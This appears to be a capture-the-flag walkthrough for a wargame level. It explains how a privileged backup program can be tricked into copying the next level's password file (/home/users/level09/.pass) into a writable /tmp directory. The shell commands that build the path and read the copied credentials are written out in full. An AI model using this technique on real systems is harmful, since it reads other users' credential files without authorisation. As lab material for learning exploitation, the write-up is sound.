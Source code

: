 The program takes an FILE_PATH as an argument. It will read this file and copy it in ./backups/ + FILE_PATH

For the program to work, each directory in the FILE_PATH should exist in backup, or else the program won't be able to create the copy.

We want to read /home/users/level09/.pass

We go in /tmp, which is the only directory where we have write access. Then we create backups//home/users/level09/

$ mkdir -p backups//home/users/level09/

Now, we just need to call the level08 program with the path to the .pass file

$ ~/level08 /home/users/level09/.pass

The file was copied successfully, just read it and copy the flag

$ cat backups/home/users/level09/.pass